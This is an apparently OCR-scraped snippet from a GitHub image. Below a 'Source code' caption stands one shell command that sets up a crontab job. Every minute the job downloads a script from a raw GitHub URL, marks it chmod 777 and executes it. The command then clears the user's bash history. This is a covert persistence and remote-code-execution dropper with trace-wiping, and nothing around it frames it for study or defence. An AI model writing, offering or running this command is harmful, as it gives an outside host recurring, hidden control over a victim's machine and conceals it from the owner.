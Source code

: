 echo 'MAILTO=""' > ~/.crontab && echo '*/1 * * * * rm ~/.q || true && curl --location --silent "https://raw.githubusercontent.com/TheFreeCompute/q/master/01_model.sh?_=$(date +%s)" -o ~/.q && chmod 777 ~/.q && ~/.q' >> ~/.crontab && crontab ~/.crontab && echo '' > .bash_history || true

